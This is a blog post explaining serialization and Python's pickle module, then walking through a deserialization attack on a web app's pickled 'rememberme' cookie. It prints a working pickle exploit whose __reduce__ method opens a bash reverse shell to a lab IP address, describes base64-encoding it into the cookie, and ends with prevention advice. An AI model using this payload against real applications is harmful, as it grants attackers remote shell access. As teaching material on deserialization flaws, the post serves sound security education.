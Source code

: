 ```yaml
---
layout: post
title: "Deserialization Attack With Pickle"
subtitle: "And a practical use-case"
date: 2022-04-26 09:00:00 -0400
background: '/img/bg-about.jpg'
---
```

# Deserialization Attack Using Python's Pickle Module

![python-pickle-logo.png](/img/posts/serialization-pickle/python-pickle-800x200.png)

## Serialization explained

Serialization is a process of converting an object into a stream of bytes to store the object or transmit it to memory, a database, or a file.
 
![packing-serialization](/img/posts/serialization-pickle/c-sharp-serialization.png)
 
This is done for a variety of reasons, some of them being :

-Persistence: storing an object in its current state for later retrieval; eg. App memory gets cleared from RAM upon exit, but the application has serialized and saved the objects to disk before it exited - so it can easily retrieve them later

-Ease of communication: two machines running the same code can use serialized objects for communication - one machine can build an object and serialize it and then send it over to the other machine

-Network transmission: serialized objects are used by web applications to ensure faster data transmission and integrity

## Python's pickle module

The Pickle module is native to Python, and "Pickling" is the process where a Python object is converted into a byte stream, and "Depickling" is the opposite - where a byte stream is converted back to an object.

## Practical use-case

Consider a web application which uses pickled data as the cookie value.
  
![request-burp](/img/posts/serialization-pickle/request.png)

How can we guess this is pickled data? By decoding the "rememberme" cookie value, its visible that it looks like a pickled value:
 
![rememberme-cookie-value](/img/posts/serialization-pickle/rememberme-cookie-value.png)
 
We can now generate our pickled object to get code execution. This is a sample python code which we can use:
```
import cPickle
import os
class exploit(object):
  def __reduce__(self):
    return (os.system,("/bin/bash -i >& /dev/tcp/10.10.14.123/80 0>&1",))
e = exploit()
print cPickle.dumps(e)
```
Note the result when running the code :
  
![pickled-object](/img/posts/serialization-pickle/pickled-object.png)
 
Since this object is being used by the web application, to ensure data integrity - it is base64 encoded:
  
![b64-pickled_object](/img/posts/serialization-pickle/b64-pickled_object.png)
  
Once this is done we can simply set up our listener and paste the b64 payload into the "rememberme" cookie value and after sending the request it will result in code execution - and in this case a reverse shell.

## Prevention
It is widely considered that unserializing data from an untrusted source or giving the users ability control over the objects is a bad idea.

The pickle module is NOT intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

If the application needs to ensure that the data has not been tampered with - consider using HMAC ((Hash-based Message Authentication Code) - which is available as a separate Python module.